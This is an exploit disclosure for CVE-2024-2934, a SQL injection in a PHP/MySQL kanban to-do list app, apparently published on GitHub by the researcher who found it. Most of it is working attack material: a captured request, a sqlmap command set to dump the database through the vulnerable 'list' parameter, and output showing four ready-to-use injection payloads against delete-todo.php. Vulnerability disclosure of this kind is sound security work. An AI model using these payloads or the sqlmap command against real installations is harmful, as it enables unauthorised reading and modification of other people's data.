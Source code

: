 #  CVE-2024-2934 - To Do List App - SQL Injection
+ **Exploit Title:**  CVE-2024-2934 - To Do List App - SQL Injection
+ **Date:** 2024-26-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17259/todo-list-kanban-board-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17259&title=Todo+List+in+Kanban+Board+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-2934

## Description:
To Do List App 1.0 allows SQL Injection via the 'list' parameter in "/todo-list-in-kanban-board/endpoint/delete-todo.php?list=5". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/todo-list-in-kanban-board/"
+ Select any resident and press the delete-list button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /todo-list-in-kanban-board/endpoint/delete-todo.php?list=5 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'list' parameter to dump the database.
```
sqlmap -r r.txt -p list --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: list (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: list=5' RLIKE (SELECT (CASE WHEN (5950=5950) THEN 5 ELSE 0x28 END))-- pCgV

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: list=5' AND EXTRACTVALUE(1256,CONCAT(0x5c,0x7178706a71,(SELECT (ELT(1256=1256,1))),0x71706a6a71))-- gqeJ

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: list=5';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: list=5' AND (SELECT 8378 FROM (SELECT(SLEEP(5)))JsKw)-- NdVF
---
[07:23:43] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[07:23:43] [INFO] fetching current database
[07:23:43] [INFO] retrieved: 'todo_kanban_db'
current database: 'todo_kanban_db'
```
+ current database: `todo_kanban_db`

![Ekran görüntüsü 2024-03-26 142845](https://github.com/BurakSevben/CVEs/assets/117217689/f3a2ad6f-70a5-4abd-83e4-acbb6f1553a0)
